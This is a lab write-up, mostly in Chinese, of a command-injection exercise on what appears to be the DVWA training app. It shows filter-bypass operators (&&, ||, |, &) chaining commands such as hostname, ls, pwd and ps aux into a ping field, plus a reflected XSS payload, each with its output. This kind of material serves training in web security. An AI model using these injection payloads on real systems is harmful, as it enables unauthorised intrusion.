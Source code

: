 # Command Injection

加上 `;` 這招無效了，只好試試其他方式

假設他有做一些過濾，會移除掉一些符號，那麼如何利用合法的方式讓它執行我想要的指令 ?

```bash
8.8.8.8 && 1.1.1.1
```
```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=37 time=35.184 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=37 time=9.613 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=37 time=29.270 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=37 time=80.921 ms
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 9.613/38.747/80.921/26.124 ms
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=37 time=8.295 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=37 time=48.083 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=37 time=86.008 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=37 time=8.431 ms
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 8.295/37.704/86.008/32.260 ms
```
看起來可行

沒有過濾 `&&` 那應該可以進一步試試

```bash
&& 1.1.1.1
```
```
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=37 time=18.062 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=37 time=8.199 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=37 time=22.774 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=37 time=11.311 ms
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 8.199/15.087/22.774/5.693 ms
```

```
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=37 time=9.902 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=37 time=10.778 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=37 time=10.773 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=37 time=10.117 ms
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 9.902/10.393/10.778/0.390 ms
```

失敗

```bash
1.1.1.1 && ls
```

多試幾次後，運氣好猜中， `||` , `|`, `&`

### or
```bash
||hostname
# 91ab8a5e75e3
```

### pipline
```bash
|ls
#help
#index.php
#source
```

### background job
```bash
&pwd 
#/var/www/html/vulnerabilities/exec
```

### XSS
這邊有 client side reflected XSS
```html
&echo "<script>alert(1)</script>"
```

![這邊有 client side reflected XSS](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/fca5ac85-25c8-4d6b-b0f8-95ac06a1af23/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T042730Z&X-Amz-Expires=86400&X-Amz-Signature=44e621fb82de0d9e1edcc24e61f12cef66919f6128713cf7ac85a4ac61106ebc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)


### Done

```bash
& ps aux | grep httpd
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/22f9cfa5-f1ef-4896-b207-192525295ea3/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T112643Z&X-Amz-Expires=86400&X-Amz-Signature=777f5d2d4b00855d2a28ea736166d7b0b53b7d9cb2df0ac17eb3b9347c6557f3&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

user of the web service is `www-data`

hostname is `91ab8a5e75e3`
